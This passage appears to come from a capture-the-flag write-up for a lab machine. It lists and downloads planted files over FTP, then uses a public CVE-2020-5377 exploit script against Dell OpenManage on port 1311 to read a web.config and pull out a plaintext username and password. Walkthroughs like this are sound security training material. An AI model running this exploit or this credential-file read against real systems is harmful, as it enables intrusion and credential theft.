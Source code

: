 **Directory Listing:**
```
06-28-23  02:58PM                 3722 Credit-Cards-We-Pwned.txt
06-28-23  03:00PM              1022126 stolen-passport.png
```

**File Retrieval:**
```bash
ftp> mget *
```

**Analysis of Retrieved Data:**
- `Credit-Cards-We-Pwned.txt`: Contained a list of compromised credit card details (e.g., VISA numbers, expiration dates, CVVs). This indicated the APT group's involvement in financial fraud.
- `stolen-passport.png`: A high-resolution image of a stolen passport, further evidencing criminal activities.

These files provided initial intelligence but did not directly lead to system access.

## Exploitation

### Vulnerability Identification
The Nmap scan highlighted port 1311 running what appeared to be Dell OpenManage. Research identified this as vulnerable to CVE-2020-5377 (and related CVE-2021-21514), a remote code execution flaw in Dell EMC OpenManage Server Administrator.

### Exploit Execution
Utilized a public exploit script (CVE-2020-5377.py) to gain arbitrary file read access on the target.

**Command:**
```bash
python3 CVE-2020-5377.py 10.9.1.172 10.201.79.117:1311
```

**Session Establishment:**
```
Session: 9C679C031EECBC0DFCF80E766F2555F2
VID: 8AA728FC16B40799
```

**File Reading Attempts:**
Attempted to read web.config files to extract credentials.

**Successful Extraction:**
```
file > \inetpub\wwwroot\hacksmartersec\web.config
Reading contents of \inetpub\wwwroot\hacksmartersec\web.config:
<configuration>
  <appSettings>
    <add key="Username" value="tyler" />
    <add key="Password" value="IAmA1337h4x0randIkn0wit!" />
  </appSettings>
  <location path="web.config">
    <system.webServer>
      <security>
        <authorization>
          <deny users="*" />
        </authorization>
      </security>
    </system.webServer>
  </location>
</configuration>
```
